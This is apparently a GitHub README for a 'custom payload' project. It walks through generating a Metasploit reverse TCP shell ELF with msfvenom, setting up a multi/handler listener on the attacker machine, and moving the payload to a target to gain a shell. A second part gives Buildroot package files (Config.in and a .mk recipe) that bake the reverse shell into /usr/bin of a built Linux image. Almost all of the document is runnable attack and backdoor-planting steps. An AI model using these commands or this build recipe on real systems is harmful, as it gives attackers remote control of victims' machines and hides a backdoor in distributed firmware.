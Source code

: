 # Cybersecurity-Custom-Payload
This is a custom Payload that compiled for Linux arch x86-64 by using Metasploit and added to the Linux image by Buildroot

# Steps to Use linux/x64/shell_reverse_tcp with msfvenom:
Generate the Payload: You can generate the payload using msfvenom by specifying the target architecture and other parameters like the listener's IP (LHOST) and port (LPORT).

Example command:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o reverse_shell.elf

Here:
-p linux/x64/shell_reverse_tcp: Specifies the payload (reverse TCP shell for 64-bit Linux).
LHOST=192.168.1.100: Set this to the IP address of your attacker's machine (the machine that will receive the reverse connection).
LPORT=4444: Set this to the port on which the attacker’s machine will listen for the reverse shell.
-f elf: Specifies the output format as ELF (Executable and Linkable Format) for Linux.
-o reverse_shell.elf: The output file name where the payload will be saved.

Set Up the Listener on Your Attacker Machine: On your attacker machine (e.g., Kali Linux), use Metasploit's multi/handler to listen for the incoming reverse shell.
msfconsole
use multi/handler
set payload linux/x64/shell_reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run

Transfer and Execute the Payload: Transfer the generated reverse_shell.elf to the target machine and execute it. Once the payload is executed on the target, it will attempt to connect back to the attacker's machine at the specified LHOST and LPORT.

Gain Access: Once the connection is established, the attacker will get a command shell from the target machine.

Compatibility:
Target Machine: The payload linux/x64/shell_reverse_tcp is specifically for 64-bit Linux systems. Ensure the target machine is running a 64-bit Linux system (x86-64 architecture).
----------------------------------------------------------------------------------
# Buildroot steps:
#create the custom package:
1- create custom_payload folder

2- create Config.in file:
	config BR2_PACKAGE_CUSTOM_PAYLOAD
    bool "Custom Payload"
    help
      This package installs a custom payload (reverse_shell.elf) into the target root filesystem.

3- create custom_payload.mk file
	
	# Define a custom variable for your project directory
	MY_PROJECT_DIR = /home/ahmed/Desktop/OneKey/buildroot-2024.08.2
	
	CUSTOM_PAYLOAD_VERSION = 1.0
	CUSTOM_PAYLOAD_SITE = $(MY_PROJECT_DIR)/package/custom_payload
	CUSTOM_PAYLOAD_SITE_METHOD = local
	CUSTOM_PAYLOAD_LICENSE = Proprietary
	CUSTOM_PAYLOAD_LICENSE_FILES =
	
	define CUSTOM_PAYLOAD_INSTALL_TARGET_CMDS
		$(INSTALL) -D -m 0755 $(CUSTOM_PAYLOAD_SITE)/reverse_shell.elf \
			$(TARGET_DIR)/usr/bin/reverse_shell
	endef
	
	$(eval $(generic-package))
	
4- add the reverse_shell.elf to the custom_payload folder

5- add the custom Config.in to the main Config.in :
	#custom payload
	source "package/custom_payload/Config.in"
	
6- check the custom payload in menuconfig:
	make menuconfig
	
7- build your image:
	make

